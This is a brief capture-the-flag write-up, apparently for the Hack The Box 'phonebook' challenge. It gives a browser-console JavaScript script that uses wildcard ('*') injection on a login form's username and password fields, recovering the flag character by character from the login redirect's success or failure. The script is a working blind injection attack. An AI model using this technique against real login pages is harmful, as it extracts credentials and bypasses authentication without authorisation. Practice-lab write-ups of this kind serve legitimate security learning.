 # phonebook
You can now login using the workstation username and password! - Reese

```js
// run it in the DevTools Console
(async () => {
    let flag="HTB",dict="}{ abcdefghijklmnopqrstuvwxyz_0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ!~.?@#$%^&-+=?<>😾".split('')
    while(1){
        for(var s of dict){
            const {url:u} = await fetch('/login',{body:new URLSearchParams({username:'*',password:flag+s+'*'}),method:"POST"})
            if(console.log(flag+s)||!u.includes("failed")&&(flag+=s)) break
        }
        if(['}','😾'].includes(s)) break
    }
})()
```
